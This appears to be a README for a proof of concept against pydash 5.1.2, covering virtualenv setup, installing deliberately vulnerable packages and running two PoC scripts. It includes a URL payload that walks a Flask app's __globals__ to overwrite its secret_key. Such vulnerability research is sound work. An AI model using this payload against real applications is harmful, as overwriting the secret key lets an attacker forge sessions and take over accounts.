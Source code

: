 
#Instructions for pydash 5.1.2 and flask PoC
Prerequisites: python3.x, pip
* create a python virtualenv if you don't want to taint your python installation with vulnerable packages, for example:
    1. python3 -m venv env
    2. source /env/bin/activate
* install vulnerable packages in the environment
    1. pip install -r requirements.txt 
* run the proof of concept
    1. python3 pydash_poc_5.1.2.py
* run flask proof of concept
    1. flask --debug --app flask_poc.py run
    2. open browser and enter following url: http://127.0.0.1:5000/?path=__class__.__init__.__globals__.app.secret_key&val='1337'
    3. result will be printed in the terminal window running the flask server
